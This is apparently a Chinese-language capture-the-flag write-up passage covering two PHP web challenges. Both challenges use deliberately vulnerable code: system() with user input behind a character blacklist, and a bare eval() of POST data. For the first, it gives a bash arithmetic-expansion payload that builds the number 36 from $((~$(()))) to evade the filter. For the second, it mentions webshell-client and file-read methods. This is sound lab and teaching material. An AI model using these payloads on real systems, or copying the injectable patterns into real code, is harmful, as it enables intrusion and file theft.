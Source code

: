 ------

#### web57

```php
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}

```

**payload**

```
$(())=0
对其进行取反
$((~$(())))=-1
构建出36，就是构建-37然后进行取反
$((~$((加上37个-1))))

?c=$((~$(($((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))+$((~$(())))
))))=36
```

------

<div style="page-break-after:always"></div>

### 类型四

PHP代码执行，突破禁用函数,绕过disable_functions

#### web58

```php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}

```

##### 方法一：剑蚁链接（不推荐）

##### 方法二：读取文件函数进行读取flag

